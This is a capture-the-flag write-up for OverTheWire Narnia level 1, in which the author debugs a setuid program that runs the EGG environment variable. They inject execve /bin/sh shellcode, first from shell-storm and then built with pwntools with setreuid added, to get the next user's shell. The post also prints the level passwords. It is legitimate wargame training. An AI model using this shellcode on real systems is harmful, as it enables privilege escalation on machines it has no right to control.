

# Narnia 1


## Overview

-----------------
On the OverTheWire/Leviathan website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Narnia0 -> Level 0
- Narnia1 -> Level 1
- ...
- Narnia33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `narnia.labs.overthewire.org` server on `port 2226` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` text
➜  ~  ssh narnia1@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia1@narnia.labs.overthewire.org's password: 
```

The password will always be the flag of the previous level. With the exception of Level 0, where the password is `narnia0`.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `eaa6AjYMBB`:

``` text
➜  ~  ssh narnia1@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia1@narnia.labs.overthewire.org's password: eaa6AjYMBB

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

  Enjoy your stay!

narnia1@gibson:~$ 
```

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).


``` text
narnia1@gibson:/narnia$ cat narnia1.c 
<snip>
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

Let's run the file and see what we get.

``` text
narnia1@gibson:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

Looking at the code, in conjunction with the output `Give me some... env-variable EGG`, let's look up the `getenv()` 
function on the interwebs.

### Result

The `getenv()` function returns a pointer to the string containing the value for the specified varname 
in the current environment. If `getenv()` cannot find the environment string, `NULL` is returned, and errno 
is set to indicate the error.

---------------------

Hmm, so we need an environment variable? On [Wikipedia (Environement Variable)](https://en.wikipedia.org/wiki/Environment_variable)
we can find this about environment variables:



Since we are using bash, we must define **EGG** like this: `export EGG=value`. 

``` text
narnia1@gibson:/narnia$ export EGG="whoami"
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault (core dumped)
narnia1@gibson:/narnia$ 
```

Hmm. So the value of `EGG` should be an executable? Let's find out what the `ret()` is supposed to do and why it's defined
like `int (*ret)();`. 

On StackOverflow I found: `int (*ret)() declare a pointer to function returning an int -without specifying arguments (in C)`
which means, in the context of our code, that if we pass a function address to ret, ret gets executed later in the program.

Another thing we have going for us is that we are getting an `Segmentation fault` warning. 


> In computing, a segmentation fault (often shortened to segfault) or access violation is a fault, 
> or failure condition, raised by hardware with memory protection, notifying an operating system (OS) 
> the software has attempted to access a restricted area of memory (a memory access violation). 
> On standard x86 computers, this is a form of general protection fault. The operating system kernel will, 
> in response, usually perform some corrective action, generally passing the fault on to the offending process 
> by sending the process a signal. Processes can in some cases install a custom signal handler, allowing them 
> to recover on their own,[1] but otherwise the OS default signal handler is used, generally causing abnormal 
> termination of the process (a program crash), and sometimes a core dump.

> Segmentation faults are a common class of error in programs written in languages like C that provide low-level 
> memory access and few to no safety checks. They arise primarily due to errors in use of pointers for virtual memory 
> addressing, particularly illegal access.


So, what is a `core dump`?


``` text
narnia1@gibson:/narnia$ gdb narnia1

<snip>

(gdb) run
Starting program: /narnia/narnia1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Trying to execute EGG!

Program received signal SIGSEGV, Segmentation fault.
0xffffdeb4 in ?? ()
(gdb) disassemble main
Dump of assembler code for function main:
   0x08049196 <+0>:	push   %ebp
   0x08049197 <+1>:	mov    %esp,%ebp
   0x08049199 <+3>:	sub    $0x4,%esp
   0x0804919c <+6>:	push   $0x804a008
   0x080491a1 <+11>:	call   0x8049050 <getenv@plt>
   0x080491a6 <+16>:	add    $0x4,%esp
   0x080491a9 <+19>:	test   %eax,%eax
   0x080491ab <+21>:	jne    0x80491c1 <main+43>
   0x080491ad <+23>:	push   $0x804a00c
   0x080491b2 <+28>:	call   0x8049060 <puts@plt>
   0x080491b7 <+33>:	add    $0x4,%esp
   0x080491ba <+36>:	push   $0x1
   0x080491bc <+38>:	call   0x8049070 <exit@plt>
   0x080491c1 <+43>:	push   $0x804a041
   0x080491c6 <+48>:	call   0x8049060 <puts@plt>
   0x080491cb <+53>:	add    $0x4,%esp
   0x080491ce <+56>:	push   $0x804a008
   0x080491d3 <+61>:	call   0x8049050 <getenv@plt>
   0x080491d8 <+66>:	add    $0x4,%esp
   0x080491db <+69>:	mov    %eax,-0x4(%ebp)
   0x080491de <+72>:	mov    -0x4(%ebp),%eax
   0x080491e1 <+75>:	call   *%eax
   0x080491e3 <+77>:	mov    $0x0,%eax
   0x080491e8 <+82>:	leave  
   0x080491e9 <+83>:	ret    
End of assembler dump.
(gdb) 
```

If we throw a breakpoint at the `ret()` function call (shown as `*%eax`) we can see:

``` text
(gdb) break *0x080491e1
Breakpoint 1 at 0x80491e1
(gdb) run
Trying to execute EGG!

Breakpoint 1, 0x080491e1 in main ()
(gdb) x/25x %eax
A syntax error in expression, near `%eax'.
(gdb) x/25x $eax
0xffffdeb3:	0x006c6176	0x564c4853	0x00313d4c	0x5f485353
0xffffdec3:	0x45494c43	0x313d544e	0x322e3034	0x392e3930
0xffffded3:	0x34392e36	0x38313520	0x32203036	0x00363232
0xffffdee3:	0x544f5551	0x5f474e49	0x4c595453	0x696c3d45
0xffffdef3:	0x61726574	0x434c006c	0x4c4c415f	0x5f6e653d
0xffffdf03:	0x552e5355	0x382d4654	0x4f4d5400	0x313d5455
0xffffdf13:	0x00303038
(gdb)
```

Let's check what the first hex means:

``` text
narnia1@gibson:/narnia$ echo -e "\x00\x6c\x61\x76"
lav
narnia1@gibson:/narnia$ echo $EGG
val
```

So, we can see that the hardware we are on is using `little endian`. But more importantly, we can see that the value
of `EGG` is just passed into memory. 


Alright, so we are after a shellcode injection here. The only question is... how do we do this. After bit of googling,
the answer is pretty straightforward. Since we run the shellcode as a function, we can just pass a function that gives 
us a sell. [Shell-storm](https://shell-storm.org/shellcode/index.html) is a repository of shellcode exploits. I picked
one from there. Specifically, this one: [Shellcode](https://shell-storm.org/shellcode/files/shellcode-756.html)

``` text
narnia1@gibson:/narnia$ export EGG=’\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80′
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault (core dumped)
narnia1@gibson:/narnia$ export EGG=$( echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" )
narnia1@gibson:/narnia$ echo $EGG
1?Ph//shh/bin??PS??1Ұ
                     ̀
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia1
$ 
```

Hmm.. we got a shell but we are the wrong user. After asking for help from the `OverTheWire` online community, I was told
that we have to set the `EUID` before we can spawn a shell. We can do this with the [pwntools](https://github.com/Gallopsled/pwntools)
library. Here is a potential implementation:

``` text
narnia1@gibson:/narnia$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.arch = 'i386'
>>> context.os = 'linux'
>>> context.endian = 'little'
>>> context.word_size = 32
>>> shellcode = asm(shellcraft.setreuid() + shellcraft.sh())
>>> enhex(shellcode)
'6a3158cd8089c36a465889d9cd806a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80'
```

We have created a shellcode, which we can set as the value for the environment variable `EGG` and run `./narnia1` again.


``` text
narnia1@gibson:/narnia$ export EGG=$( echo -en "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" )
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
$ exit  
narnia1@gibson:/narnia$ 
```

Boom we got the flag!!!


